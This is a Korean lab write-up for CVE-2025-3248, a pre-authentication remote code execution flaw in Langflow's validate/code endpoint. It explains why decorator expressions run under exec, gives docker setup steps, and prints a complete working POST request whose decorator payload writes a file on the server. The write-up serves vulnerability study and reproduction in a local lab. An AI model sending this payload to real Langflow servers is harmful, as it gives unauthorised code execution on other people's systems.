

# Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

### 제출 정보
- Github Repo : https://github.com/breakman/kr-vulhub/tree/langflow/langflow/CVE-2025-3248
- Pull Requst : https://github.com/gunh0/kr-vulhub/pull/230
## 개요 
Langflow 는 에이전트 기반 AI 워크플로우를 구축하기 위한 인기 있는 오픈소스 도구로, python 기반 웹 인퍼페이스를 통해 AI 에이전트와 파이프라인을 시작적으로 구성할 수 있도록 한다.

Langflow 1.3.0 이하 버전에서 발생하는 **원격 코드 실행(RCE)** 취약점인 CVE-2025-3248 이 존재한다.

### 참고문헌
- https://github.com/vulhub/vulhub/blob/master/langflow/CVE-2025-3248

### 취약점
- (`/api/v1/validate/code`) 엔드포인트에서 발생.

    해당 엔드포인트는 사용자로부터 제출된 Python 코드를 ast 모듈로 파싱후 exec 를 사용해 함수 정의를 실행함으로써 유효성을 검증함.
- Python 함수 정의는 decorator 인자와 defualt 인자에 포함된 표현식을 정의 시점에 실행
- 해당 인자에 악성 코드를 삽입해 exec() 과 함께 실행하여 RCE를 일으킬 수 있음.

## 환경 구성
```bash
git clone --depth 1 https://github.com/
cd vulhub/langflow/CVE-2025-3248
docker compose up -d
```
서버가 시작된 이후 `http://localhost:7860` 로 접속할 수 있다.


## 취약점 재현
`/api/v1/validate/code` 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 보내야한다.

다음은 서버에서 임의의 파일을 열어 읽고 쓸 수 있는 예시이다.
```
POST /api/v1/validate/code HTTP/1.1
Host: localhost:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 133

{"code": "@exec(\"raise Exception(__import__('builtins').open('/tmp/hacked.txt','w').write('you hacked!'))\")\ndef foo():\n  pass"}
```

